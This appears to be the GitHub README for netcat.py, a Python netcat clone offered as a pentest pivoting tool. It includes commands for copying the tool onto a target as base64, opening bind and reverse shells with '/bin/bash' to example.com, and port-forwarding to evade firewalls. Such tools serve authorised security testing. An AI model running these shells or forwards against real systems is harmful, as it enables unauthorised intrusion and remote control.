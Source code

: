 # netcat.py

[![](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![PyPI](https://img.shields.io/pypi/v/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Status](https://img.shields.io/pypi/status/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Format](https://img.shields.io/pypi/format/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Implementation](https://img.shields.io/pypi/implementation/netcat)](https://pypi.org/project/netcat/)
[![PyPI - License](https://img.shields.io/pypi/l/netcat)](https://pypi.org/project/netcat/)

[![Build Status](https://github.com/cytopia/netcat/workflows/linting/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=linting)
[![Build Status](https://github.com/cytopia/netcat/workflows/building/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=building)
[![Build Status](https://github.com/cytopia/netcat/workflows/testing/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=testing)


Dependency-less Python 2 and Python 3 compatible implementation of netcat which works on 32bit and 64bit systems to easily pivot your target.

**Motivation**

To have a single tool for older, newer, 32bit and 64bit machines with relevant options (`-e`. `-L` and `-R`) to create bind shells, local and remote port-forwards.


## :tada: Install
```bash
pip install netcat
```


## :coffee: TL;DR

#### Copy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/netcat/master/bin/netcat.py | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > netcat.py
chmod +x netcat.py
```
#### Summon shells
```bash
# bind shell
netcat.py -l -e '/bin/bash' 8080
```
```bash
# reverse shell
netcat.py -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH
```bash
# Make local port available to public interface locally
netcat.py -L 127.0.0.1:3306 192.168.0.1 3306
```
```bash
# Remote port-forwarding to evade firewalls
netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :computer: Usage
```
usage: netcat.py [-Cnuv] [-e cmd] hostname port
       netcat.py [-Cnuv] [-e cmd] -l [hostname] port
       netcat.py [-Cnuv] -L addr:port [hostname] port
       netcat.py [-Cnuv] -R addr:port hostname port
       netcat.py -V, --version
       netcat.py -h, --help


Netcat implementation in Python with connect, listen and forward mode.

positional arguments:
  hostname              Address to listen, forward or connect to
  port                  Port to listen, forward or connect to

mode arguments:
  -l, --listen          Listen mode: Enable listen mode for inbound connects
  -L addr:port, --local addr:port
                        Local forward mode: Specify local <addr>:<port> to which traffic
                        should be forwarded to.
                        Netcat will listen locally (specified by hostname and port) and
                        forward all traffic to the specified value for -L/--local.
  -R addr:port, --remote addr:port
                        Remote forward mode: Specify local <addr>:<port> from which traffic
                        should be forwarded from.
                        Netcat will connect remotely (specified by hostname and port) and
                        for ward all traffic from the specified value for -R/--remote.

optional arguments:
  -e cmd, --exec cmd    Execute shell command. Only works with connect or listen mode.
  -C, --crlf            Send CRLF as line-endings (default: LF)
  -n, --nodns           Do not resolve DNS
  -u, --udp             UDP mode
  -v, --verbose         Be verbose and print info to stderr. Use -vv or -vvv for more verbosity.

misc arguments:
  -h, --help            Show this help message and exit
  -V, --version         Show version information and exit

examples:

  Create bind shell
    netcat.py -l -e '/bin/bash' 8080

  Create reverse shell
    netcat.py -e '/bin/bash' example.com 4444

  Local forward: Make localhost port available to another interface
    netcat.py -L 127.0.0.1:3306 192.168.0.1 3306

  Remote forward: Forward local port to remote server
    netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :lock: [cytopia](https://github.com/cytopia) sec tools

| Tool             | Category             | Language   | Description |
|------------------|----------------------|------------|-------------|
| [smtp-user-enum] | Enumeration          | Python 2+3 | SMTP users enumerator |
| [urlbuster]      | Enumeration          | Python 2+3 | Mutable web directory fuzzer |
| [netcat]         | Pivoting             | Python 2+3 | Cross-platform netcat |
| [badchars]       | Reverse Engineering  | Python 2+3 | Badchar generator |
| [fuzza]          | Reverse Engineering  | Python 2+3 | TCP fuzzing tool |

[netcat]: https://github.com/cytopia/netcat
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza


## :exclamation: Disclaimer

This tool may be used for legal purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.


## :page_facing_up: License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**
